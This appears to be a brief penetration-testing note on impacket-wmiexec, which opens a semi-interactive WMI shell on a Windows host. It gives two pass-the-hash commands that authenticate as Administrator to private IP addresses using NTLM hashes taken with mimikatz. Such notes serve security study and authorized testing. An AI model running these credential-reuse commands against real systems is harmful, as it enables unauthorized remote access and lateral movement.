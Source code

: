 ```yaml
---
tags:
---
```

# wmiexec

Executes a semi-interactive shell using WMI.

Requires `ADMIN$` share to be available. Only works against Active Directory domain accounts and the built-in local administrator account.

## Capabilities

```bash
# Authenticate with hash
impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```

Note: In the hash example, we fill in the left side of the colon with zeros, and the right is the administrators NTLM hash pulled from `mimikatz`
